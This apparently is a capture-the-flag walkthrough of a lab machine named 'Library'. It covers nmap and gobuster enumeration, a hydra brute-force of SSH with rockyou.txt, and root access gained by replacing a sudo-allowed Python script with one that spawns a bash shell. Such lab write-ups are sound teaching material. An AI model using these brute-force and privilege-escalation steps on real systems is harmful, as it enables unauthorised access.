


## Nmap: 
---
```bash
nmap -T4 -n -A 10.64.167.184 -oN nmap
```

```bash
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
| http-robots.txt: 1 disallowed entry
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 
- so a web-server is running a `SSH` is open 

## further Enumeration: 
---

- this is the first thing we see, when we open a the website 
- when we scroll down we can see `comments`: 

- there are 3 comments from different `user`, because `root` and `www-data` well known usernames on Linux-machines we can assume that `anonymous` is also a `user` 
- lets use `Gobuster` to find directory's or files that are stored on this website
### Gobuster: 
---
```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://10.64.167.184 -o gobuster/first_enum
```

```bash
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/images               (Status: 301) [Size: 315] [--> http://10.64.167.184/images/]
/index.html           (Status: 200) [Size: 5439]
/robots.txt           (Status: 200) [Size: 33]
/server-status        (Status: 403) [Size: 301]
```

- lets look into `robots.txt`: 

- `rockyou` refers to the well known `wordlist` that is used with for example `hydra` to `brute-force` passwords or usernames 
- we could try to `brute-force` the password of `anonymous` in `SSH` 
## Hydra: 
---
- I tried it with the `user`: anonymous, but `hydra` didn't find a password 
- so I looked again at the website and i saw that this `comments` refereed to a post from `meliodas` (you can see it in the first image) 
- so i tried `brute-forcing` again with this `username`: 
```bash 
hydra -l meliodas -P /usr/share/rockyou.txt 10.64.167.184 ssh
```

- and it worked: 
```
[22][ssh] host: 10.64.167.184   login: meliodas   password: <Redacted>
```
- lets log into `SSH` 

## Privilege Escalation: 
---
- we can now read the `user.txt`: 
```bash
6<Redacted>c
```

- lets try to get `root` 
- in `meliodas` home directory we can see a `bak.py` owned by `root`, lets read it: 
```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```
- so the whole content of `html` is getting zipped and stored in `/var/backups/website.zip`

- lets run `sudo -l` to see if we can run anything with `sudo`: 
```bash
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
- so we can run the script as `root` with any version of python 
- but maybe we can add extra flags when we run `python` because of the `*`, so we can create `root-shell` 
- I tried it but it didn't work 

- then i checked if we can write in `meliodas`, so we can maybe delete the `bak.py` to create a new one 
- the `bak.py` doesn't need to be owned by `root`, if we can execute it with `root-privilges` 
```bash 
drwxr-xr-x  4 meliodas meliodas 4096 Dec 26 06:03 meliodas
```

- we can indeed write as `meliodas`, so lets delete it and write our own 
- I executed `nano bak.py` after i deleted it to create a new one and put this code there: 
```python 
import os
os.system("/bin/bash")
```

- so now we can try to run the script: 
```bash
sudo -u root /usr/bin/python3 /home/meliodas/bak.py
```


- now we can read the `root.txt`: 
```bash
e<Redacted>7
```
